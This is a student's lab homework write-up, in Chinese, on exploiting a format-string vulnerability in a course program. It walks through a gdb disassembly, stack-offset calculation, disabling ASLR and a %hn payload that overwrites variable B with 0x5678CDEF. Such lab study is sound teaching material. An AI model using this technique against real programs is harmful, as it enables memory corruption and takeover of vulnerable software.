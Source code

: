 ```yaml
---
title: "网络安全作业8"
description: 
date: 2023-12-18T11:28:18+08:00
image: 
math: 
license: 
hidden: false
comments: true
draft: false
categories:
    - 网络安全
tags:
    - 学习笔记
---
```


题目：在32位的ubuntu16.04运行环境下，对格式化漏洞程序vul_formatstr2.c，参照
12.2.4的方法，说明如何修改程序，将变量B的值改成0x5678CDEF。



在Ubuntu 64位系统上，使用以下命令来安装gcc多架构编译器和32位库：

`sudo apt-get install gcc-multilib libc6-dev-i386`


在编译C程序时，使用`-m32`选项来生成32位的可执行文件。例如：
`gcc -m32 -o v2 vul_formatstr2.c`


azureuser@MyServer:~/hw$ gdb v2

``` bash
   0x0000122d <+0>:     endbr32 
   0x00001231 <+4>:     push   %ebp
   0x00001232 <+5>:     mov    %esp,%ebp
   0x00001234 <+7>:     push   %ebx
   0x00001235 <+8>:     sub    $0x414,%esp
   0x0000123b <+14>:    call   0x1130 <__x86.get_pc_thunk.bx>
   0x00001240 <+19>:    add    $0x2d8c,%ebx
   0x00001246 <+25>:    mov    %gs:0x14,%eax
   0x0000124c <+31>:    mov    %eax,-0xc(%ebp)
   0x0000124f <+34>:    xor    %eax,%eax
   0x00001251 <+36>:    movl   $0x3435,-0x418(%ebp)
   0x0000125b <+46>:    movl   $0x5657,-0x414(%ebp)
   0x00001265 <+56>:    movl   $0x7879,-0x410(%ebp)
   0x0000126f <+66>:    lea    -0x410(%ebp),%eax
   0x00001275 <+72>:    push   %eax
   0x00001276 <+73>:    lea    -0x414(%ebp),%eax
   0x0000127c <+79>:    push   %eax
   0x0000127d <+80>:    lea    -0x418(%ebp),%eax
   0x00001283 <+86>:    push   %eax
   0x00001284 <+87>:    lea    -0x1fc4(%ebx),%eax
   0x0000128a <+93>:    push   %eax
   0x0000128b <+94>:    call   0x10a0 <printf@plt>
   0x00001290 <+99>:    add    $0x10,%esp
   0x00001293 <+102>:   mov    -0x410(%ebp),%ecx
   0x00001299 <+108>:   mov    -0x414(%ebp),%edx
   0x0000129f <+114>:   mov    -0x418(%ebp),%eax
   0x000012a5 <+120>:   push   %ecx
   0x000012a6 <+121>:   push   %edx
   0x000012a7 <+122>:   push   %eax
   0x000012a8 <+123>:   lea    -0x1fab(%ebx),%eax
   0x000012ae <+129>:   push   %eax
   0x000012af <+130>:   call   0x10a0 <printf@plt>
   0x000012b4 <+135>:   add    $0x10,%esp
   0x000012b7 <+138>:   sub    $0xc,%esp
   0x000012ba <+141>:   lea    -0x1f94(%ebx),%eax
   0x000012c0 <+147>:   push   %eax
   0x000012c1 <+148>:   call   0x10c0 <puts@plt>
   0x000012c6 <+153>:   add    $0x10,%esp
   0x000012c9 <+156>:   sub    $0x8,%esp
   0x000012cc <+159>:   lea    -0x40c(%ebp),%eax
   0x000012d2 <+165>:   push   %eax
   0x000012d3 <+166>:   lea    -0x1f7d(%ebx),%eax
   0x000012d9 <+172>:   push   %eax
   0x000012da <+173>:   call   0x10e0 <__isoc99_scanf@plt>
   0x000012df <+178>:   add    $0x10,%esp
   0x000012e2 <+181>:   sub    $0xc,%esp
   0x000012e5 <+184>:   lea    -0x40c(%ebp),%eax
   0x000012eb <+190>:   push   %eax
   0x000012ec <+191>:   call   0x10a0 <printf@plt>
   0x000012f1 <+196>:   add    $0x10,%esp
   0x000012f4 <+199>:   sub    $0xc,%esp
   0x000012f7 <+202>:   lea    -0x1f7a(%ebx),%eax
   0x000012fd <+208>:   push   %eax
   0x000012fe <+209>:   call   0x10c0 <puts@plt>
   0x00001303 <+214>:   add    $0x10,%esp
   0x00001306 <+217>:   mov    -0x410(%ebp),%ecx
   0x0000130c <+223>:   mov    -0x414(%ebp),%edx
   0x00001312 <+229>:   mov    -0x418(%ebp),%eax
   0x00001318 <+235>:   push   %ecx
   0x00001319 <+236>:   push   %edx
   0x0000131a <+237>:   push   %eax
   0x0000131b <+238>:   lea    -0x1f78(%ebx),%eax
   0x00001321 <+244>:   push   %eax
   0x00001322 <+245>:   call   0x10a0 <printf@plt>
   0x00001327 <+250>:   add    $0x10,%esp
   0x0000132a <+253>:   nop
   0x0000132b <+254>:   mov    -0xc(%ebp),%eax
   0x0000132e <+257>:   xor    %gs:0x14,%eax
   0x00001335 <+264>:   je     0x133c <formatstr_vul+271>
   0x00001337 <+266>:   call   0x13f0 <__stack_chk_fail_local>
   0x0000133c <+271>:   mov    -0x4(%ebp),%ebx
   0x0000133f <+274>:   leave  
   0x00001340 <+275>:   ret    
```

End of assembler dump.
`(gdb) b *(formatstr_vul+191)`
Breakpoint 1 at 0x12ec
(gdb) r
Starting program: /home/azureuser/hw/v2 
<font color="#ff0000">&A=0xffffcde0   &B=0xffffcde4   C=0xffffcde8.</font>
A=0x3435        B=0x5657        C=0x7879.
Please enter a string:
ABCD%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.

Breakpoint 1, 0x565562ec in formatstr_vul ()
(gdb) x/x $esp
0xffffcdd0:     0xffffcdec
(gdb) p (0xbfffcdec-0xbfffcdd0)/4
$1 = 7

因此，user_input的首地址为0xffffcdec，位于栈顶开始的第7个(4字
节）单元。


关闭地址随机化机制:
`sudo sysctl -w kernel.randomize_va_space=0`


根据上面可知 **&B=0xffffcde4=4294954468**

```bash
azureuser@MyServer:~/hw$ ./read2file
Please enter an address.
4294954468
Please enter the format string:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.
The string length is 39
azureuser@MyServer:~/hw$ ./v2 < mystring
&A=0xffffce30   &B=0xffffce34   C=0xffffce38.
A=0x3435        B=0x5657        C=0x7879.
Please enter a string:
����ffffce3c.00005657.00007879.00003435.00005657.00007879.ffffcde4.
New values      A=0x3435        B=0x5657        C=0x7879.

```

变量B的地址送入堆栈，**&B=0xffffce34 =4294954548**


编译 read2file2.c
`azureuser@MyServer:~/hw$ gcc -m32 -o read2file2 read2file2.c`




**0xCDEF - 5\*9 - 12 = 52662
0x5678 - 0xCDEF = -30583**

当尝试计算`0x5678 - 0xCDEF`时得到了负数，这是因为`0x5678`小于`0xCDEF`。为了解决这个问题，可以利用无符号整数的环绕性质。

将负数`-30583`视为一个大的正数。具体来说，将`-30583`添加到`2^16`（即`65536`，因为`%hn`写入的是16位值）来得到一个正数：

**65536−30583=34953**

使用`34953`作为`%hn`的值来代替`-30583`。

得到字符串：
`%08x.%08x.%08x.%08x.%08x.%.52662u%hn%.34953u%hn.%08x.%08x.`


命令行输入到文件mystring中
```shell
azureuser@MyServer:~/hw$ ./read2file2
Please enter an address.
4294954548
Please enter the format string:
%08x.%08x.%08x.%08x.%08x.%.52662u%hn%.34953u%hn.%08x.%08x.
The string length is 70
```

将文件mystring作为输入重定向到漏洞程序，并将输出定向到
文件result.txt中：
```shell
azureuser@MyServer:~/hw$ ./v2 < mystring > result.txt
azureuser@MyServer:~/hw$ tail -n 1 result.txt
New values      A=0x3435        B=0x5678cdef    C=0x7879.
```
